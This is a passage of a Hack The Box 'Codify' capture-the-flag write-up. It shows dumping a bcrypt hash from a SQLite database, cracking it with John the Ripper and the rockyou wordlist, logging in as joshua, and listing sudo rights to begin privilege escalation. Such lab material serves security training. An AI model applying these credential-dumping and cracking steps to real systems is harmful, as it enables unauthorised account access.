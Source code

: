 
We get joshua user but the password is encrypted

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Codify/files]
└─$ sqlite3 tickets.db                     
SQLite version 3.43.1 2023-09-11 12:01:27
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We use john to crack the password

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
┌──(kali㉿kali)-[~/HTB/Codify/files]
└─$ john password.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)     
1g 0:00:00:09 DONE (2023-11-12 00:15) 0.1106g/s 151.3p/s 151.3c/s 151.3C/s winston..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Now we have the following credentials which we can use to login and get the flag

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
joshua
spongebob1
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

<br>

## Getting Root

### Information Gathering

sudo -l shows we have permission to run a bash script

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
joshua@codify:/opt/scripts$ sudo -l
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
